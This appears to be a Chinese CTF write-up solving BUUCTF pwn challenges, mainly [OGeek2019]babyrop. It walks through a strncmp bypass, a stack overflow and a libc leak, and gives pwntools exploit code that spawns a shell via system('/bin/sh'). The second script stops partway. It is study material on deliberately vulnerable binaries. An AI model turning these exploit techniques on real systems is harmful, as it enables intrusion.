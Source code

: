 ```python
log.success('libcbase_address => %s' % hex(libcbase))
system_address = libcbase + libc.dump('system')
log.success('system_address => %s' % hex(system_address))
bin_sh_address = libcbase + libc.dump('str_bin_sh')
log.success('bin_sh_address => %s' % hex(bin_sh_address))
payload = b'a'*0x88 + b'fuck' + p32(system_address) + p32(0xdeadbeef) + p32(bin_sh_address)
io.sendline(payload)
io.interactive()
```

![](https://paper.tanyaodan.com/BUUCTF/2018_rop/4.png)

------

### [[OGeek2019]babyrop](https://buuoj.cn/challenges#[OGeek2019]babyrop)

先`file ./babyrop`查看文件类型再`checksec --file=./babyrop`检查一下文件保护情况。

![](https://paper.tanyaodan.com/BUUCTF/ogeek2019_babyrop/1.png)

用`IDA Pro 32bit`打开附件`babyrop`，按`F5`反汇编源码并查看主函数，可以看到将一个随机数赋值给了`buf`变量。

![](https://paper.tanyaodan.com/BUUCTF/ogeek2019_babyrop/2.png)

双击`sub_80486BB()`函数查看详情发现这是一个初始化缓存区的函数。

![](https://paper.tanyaodan.com/BUUCTF/ogeek2019_babyrop/3.png)

双击`sub_804871F()`函数查看详情，发现传入的参数`a1`被格式化字符串后赋值给了变量`s`。`v1`变量用于获取`char`型数组`buf`的大小，`strncmp()`函数用于比较用户输入的数和随机数的大小，构造`payload`时可以先用`\x00`来绕过`strncmp()`，因为`strlen()`遇到`\x00`时便会停止获取长度。

![](https://paper.tanyaodan.com/BUUCTF/ogeek2019_babyrop/4.png)

双击`sub_80487D0()`函数查看详情，发现该函数声明了一个`char`型数组的局部变量`buf`，可用栈大小为`0xe7`。如果`a1`等于`127`则会读入`0xc8`个字节到变量`buf`并不会导致栈溢出，但是当`a1`大于`0xe7`时就会读入`a1`个字节到变量`buf`从而造成栈溢出漏洞。因为`a1`是函数`sub_804871F()`的返回值，所以构造`payload`时让`a1`的值大于`\xe7`就可以导致栈溢出啦。

![](https://paper.tanyaodan.com/BUUCTF/ogeek2019_babyrop/5.png)

总的来说这题的思路就是：构造`payload`时先用`\x00`使得`v1`通过`strlen()`获取的返回值为0，从而绕过`strncmp()`的比较，此外`sub_804871F()`函数的返回值要尽可能大，所以`v5`读取输入时可以赋值为`\x00\xff\xff\xff\xff\xff\xff\xff`，这样函数返回值在传入`sub_80487D0()`函数时才能构造栈溢出漏洞。

在`Function Window`中并没有找到`system()`函数和`'/bin/sh'`字符串，但是需要注意到主函数中有`write()`函数啊！程序执行前，`got`表中存放的还是`plt`表的地址，但是程序执行后，`plt`表中存放的是`got`表的地址，`got`表中存放的是函数的内存地址。因此我们可以用`ELF`来获取`write()`函数的`plt`表和`got`表地址，利用栈溢出漏洞并通过`read()`函数泄露`write()`函数在`got`表中的内存地址`write_address`。接着我们需要用到题目给出的`libc-2.23.so`，根据`libc`中`write()`函数的偏移地址可以计算出该`libc`的基址地址`libcbase`，再根据`libc`中的`system()`函数和`'/bin/sh'`字符串的偏移地址可以计算出这俩个函数的内存地址，最后利用栈溢出漏洞来完成系统调用`system('/bin/sh')`，输入`cat flag`后即可拿到`flag`。

编写`Python`代码即可得到`flag{2c99881a-89e7-41c6-83a1-7a0e3781f961}`。

```python
from pwn import *

context(arch='i386', os='linux', log_level='debug')
io = remote('node4.buuoj.cn', 25522)
# io = process('./babyrop')
e = ELF('./babyrop')
io.sendline(b'\x00'.ljust(8, b'\xff'))
write_plt = e.plt['write']
write_got = e.got['write']
main_address = 0x8048825
payload = b'a'*0xe7 + b'pwn!'
payload += flat(write_plt, main_address, 1, write_got, 4)
io.sendlineafter(b'Correct\n', payload)
write_address = u32(io.recv(4))
```